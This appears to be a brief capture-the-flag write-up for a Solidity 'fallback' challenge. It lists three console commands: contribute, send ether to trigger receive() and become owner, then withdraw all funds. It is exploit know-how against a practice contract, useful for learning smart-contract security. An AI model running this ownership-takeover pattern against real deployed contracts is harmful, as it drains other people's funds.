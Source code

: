 Solution: Use fallback function to gain owner role.

1. Contribute to contract, this allow us to pass `contributions[msg.sender] > 0` check in receive()
```
await contract.contribute({value: 1000000000})
```
2. Use receive()
```
await contract.sendTransaction({value: 1})
```
3. Withdraw all funds from contract
```
await contract.withdraw()
```
